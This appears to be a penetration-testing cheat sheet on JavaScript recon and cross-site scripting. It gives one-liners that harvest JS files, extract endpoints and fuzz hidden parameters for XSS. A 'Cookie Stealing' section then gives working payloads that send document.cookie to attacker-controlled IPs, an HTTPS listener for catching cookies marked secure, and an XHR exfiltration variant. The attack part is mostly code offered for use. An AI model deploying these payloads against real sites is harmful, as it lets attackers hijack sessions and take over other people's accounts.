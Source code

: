# JavaScript
## Extract JavaScript Files
```bash
waybackurls target.com | grep "\\.js" | xargs -n1 -I@ curl -k @ | tee -a content.txt

```

## Find JavaScript Files by gau and httpx

* [gau](https://github.com/lc/gau)
* [httpx](https://github.com/projectdiscovery/httpx)
```bash
echo target.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'

```


## Extract API endpoints from javascript files
```bash
cat file.js | grep -aoP "(?<=(\"|\'|\`))\/[a-zA-Z0-9_?&=\/\-\#\.]*(?=(\"|\'|\`))" | sort -u

```


## Find hidden GET parameters in javascript files
Here’s an interesting tip for finding hidden parameters by analyzing javascript files:

1. Scour javascript files for variable names, e.g.:
  `var test = "xxx"`

2. Try each of them as a GET parameter to uncover hidden parameters, e.g.:
  `https://example.com/?test=”xsstest`

**This often results in XSS!**
```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done

```






## Cookie Stealing
(Note: `HttpOnly` should not be enabled/present in cookie header)

**1. Classic way**
```javascript
<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>

```
* **<img> Tag and Without the Infinite Loop**

This one works and will only steal the cookie once.
```javascript
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">

```
* **<img> Tag Instead of <script> Tags**
Don't use this one! It works but calls `onerror()` in a loop, filling up your stolen cookie log.
```javascript
<img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>

```

* ***Run the Cookie Stealer Python Script***

You'll need a place to capture the stolen cookies. [lnxg33k](https://github.com/lnxg33k) has written an excellent Python script called [XSS-cookie-stealer.py](https://github.com/Mehdi0x90/Scripts/blob/main/Python/XSS-cookie-stealer.py). Run it with Python 2.6 or higher. It is just an HTTP server which logs each inbound HTTP connection and all the cookies contained in that connection.
```bash
# Run script
python XSS-cookie-stealer.py

# The resulting output, at minimum, will be this
Started http server


```

**2. Bypassing secure flag protection**
* Generating certificate
```bash
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes

```
* Creating a HTTPS server
```python
#!/usr/bin/python3
import http.server, ssl
server_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()

```
* Via XHR
```javascript
var xhr=new XMLHttpRequest(); 
xhr.open("GET", "https://10.10.14.8/?"+document.cookie, true); 
xhr.send();

```




